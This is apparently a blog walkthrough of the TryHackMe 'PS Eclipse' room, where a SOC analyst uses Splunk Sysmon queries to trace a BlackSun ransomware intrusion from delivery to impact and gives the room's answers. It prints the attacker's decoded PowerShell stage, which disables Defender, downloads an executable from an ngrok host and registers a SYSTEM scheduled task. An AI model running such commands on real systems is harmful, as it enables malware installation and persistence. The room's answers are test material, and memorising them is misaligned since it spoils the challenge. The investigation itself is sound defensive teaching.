



| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|PS Eclipse ||

PS Eclipse is a Splunk investigation room: you play a SOC analyst for an MSSP asked to reconstruct what happened on Keegan's machine on Monday, May 16th, 2022, after some files turned up with a strange extension. The whole intrusion is sitting in Sysmon telemetry, so the job is to walk the attack chain from delivery to impact using the right event codes. If you enjoy this kind of log-driven triage, the [Conti walkthrough](/post/thm-room-conti/) traces a ProxyShell-to-ransomware chain in the same Splunk setup, and [The Blue Team Perspective](/post/thm-room-blueteamperspective/) is a BOTSv1 triage worth pairing with it.

All data lives in `index=main`, and the events are backdated to 2022, so every search here runs over All time rather than the Splunk default of Last 24 hours. A quick `index=main | stats count by sourcetype` shows the bulk of the evidence is Sysmon (`WinEventLog:Microsoft-Windows-Sysmon/Operational`), which is where the answers live.

## Delivery: an encoded PowerShell download

Sysmon Event Code 1 (process creation) is the first stop. Filtering PowerShell processes for the telltale `-exec bypass -enc` pattern surfaces the delivery stage, executed three separate times:

```
index=main EventCode=1 Image=*powershell.exe* CommandLine="*exec bypass*"
| table _time Image CommandLine
```



The command is Base64 encoded (the `-enc` flag takes a UTF-16LE Base64 blob). Decoding it reveals the full first stage:

```
Set-MpPreference -DisableRealtimeMonitoring $true;
wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;
SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;
SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```

That one blob answers the first three questions. The downloaded binary is **OUTSTANDING_GUTTER.exe**. The download address, with `http://` added and defanged, is **hxxp[://]886e-181-215-214-32[.]ngrok[.]io** (an ngrok tunnel fronting the attacker's server). And `wget` here is the PowerShell alias for `Invoke-WebRequest`, so the Windows executable that performed the download is **C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe**.

One format note on the defanging: the room's accepted answer wraps the scheme too, so it is `hxxp[://]` with brackets, not just `hxxp://`. The answer mask makes that unambiguous, so match it exactly rather than relying on CyberChef's default output.

## Persistence: a scheduled task running as SYSTEM

The decoded command already shows `schtasks`, and the hint for this stage points at Event Code 12 (registry) because each task registration writes to the TaskCache registry hive. Pulling every `schtasks.exe` process creation shows the attacker fumbling the same command three times, which matches the three download attempts:

```
index=main EventCode=1 Image=*schtasks.exe
| table _time User CommandLine | sort _time
```



The command that configures the binary to run with elevated privileges is the full `/Create` line:

```
"C:\Windows\system32\schtasks.exe" /Create /TN OUTSTANDING_GUTTER.exe /TR C:\Windows\Temp\COUTSTANDING_GUTTER.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f
```

The `/RU SYSTEM` flag is the important part: the task runs as **NT AUTHORITY\SYSTEM**. The question for the run permissions wants the user and the run command together, formatted as User + ; + CommandLine, which is **NT AUTHORITY\SYSTEM;"C:\Windows\system32\schtasks.exe" /Run /TN OUTSTANDING_GUTTER.exe**. Notice the `/TR` points at `COUTSTANDING_GUTTER.exe` (a leading C typo), which is why the attacker had to keep retrying: the task action path never matched the binary they actually dropped.



## Command and control

Once running, the binary reaches back out. Sysmon Event Code 22 (DNS query) ties a hostname to the process, and Event Code 3 (network connection) confirms the egress. The binary resolves a second, different ngrok subdomain from the one it was downloaded from:

```
index=main EventCode=22 Image=*OUTSTANDING_GUTTER.exe
| stats count by QueryName
```

The download came from `886e-...`, but the C2 beacon goes to a separate tunnel. Defanged, the address the binary connected to is **hxxp[://]9030-181-215-214-32[.]ngrok[.]io**. Keeping delivery and C2 infrastructure on separate ngrok hosts is a small but useful detail when you are scoping which indicators to block.

## The payload: script.ps1 and BlackSun

The binary drops a PowerShell script into the same directory it was downloaded to. Searching Event Code 11 (file creation) for `.ps1` files in that path finds it:

```
index=main EventCode=11 TargetFilename=*.ps1
| stats count by TargetFilename
```

The script saved alongside the binary is **script.ps1** (`C:\Windows\Temp\script.ps1`). That generic name is a disguise. Every artifact the script then writes is prefixed with the same string, which gives away what it really is:

```
index=main EventCode=11 BlackSun
| table _time Image TargetFilename
```



The script writes `BlackSun.log`, `BlackSun_DRIVE_LOCAL_C`, `enc-files.7z.BlackSun`, and more, all authored by `powershell.exe`. This is the BlackSun ransomware, so the actual name of the malicious script behind the `script.ps1` disguise is **BlackSun.ps1**. This is an inference question, but the answer mask (eight characters, then `.ps1`) and the consistent BlackSun prefix on every dropped file leave little doubt.

## Impact: the ransom note and the wallpaper

The same Event Code 11 results carry the two indicators of compromise that confirm the ransomware actually detonated. The ransom note is saved to **C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt**, next to the `enc-files.7z.BlackSun` and `enc-toolset.7z.BlackSun` archives of encrypted data. The script also swaps the desktop wallpaper, writing the replacement image to **C:\Users\Public\Pictures\blacksun.jpg**. Both paths are clean IOCs you could sweep an estate for.

## Takeaways

Two habits carry over from this room to any Sysmon-based hunt. First, let the event codes drive the investigation: Event Code 1 for the process tree, 22 and 3 for the network side, 11 for files dropped, and 12 or 13 for registry and persistence. Mapping each question to the event code that records it is faster than full-text searching and far less noisy. Second, trust the artifacts over the filenames. A binary called `OUTSTANDING_GUTTER.exe` and a script called `script.ps1` tell you nothing, but the files they create, all stamped `BlackSun`, name the threat for you. When an attacker disguises a payload, its side effects are usually where the real identity leaks.

Room solved 100%: 1 task, 10 answers.
